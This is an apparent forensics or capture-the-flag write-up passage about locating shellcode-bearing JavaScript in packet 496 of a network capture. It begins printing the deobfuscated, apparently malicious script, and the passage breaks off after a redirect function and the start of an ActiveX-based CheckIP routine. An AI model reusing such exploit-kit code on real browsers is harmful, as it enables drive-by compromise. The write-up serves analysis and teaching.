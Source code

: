 ![93aeb382da9714f235d22cdb88e86767.png](/_resources/93aeb382da9714f235d22cdb88e86767.png)

We do not see anything specific to `/load.php?e=8` here and from the clue from got from previous question we will have to find the right packet that contains shellcode

![6b838c9250ea414c72afa8fe638280b7.png](/_resources/6b838c9250ea414c72afa8fe638280b7.png)

After some search we will eventually found that packet 496 got the longest js and after print out deobfuscated js, we can see that it got so many shellcode here

Here is the full deobfuscated javascript from packet 496 after passed to beautifiy js
```
function Complete() {
	setTimeout('location.href = "about:blank', 2000);
}
function CheckIP() {
	var req = null;
	try {
		req = new ActiveXObject('Msxml2.XMLHTTP');
	} catch (e) {
		try {
			req = new ActiveXObject('Microsoft.XMLHTTP');
		} catch (e) {
```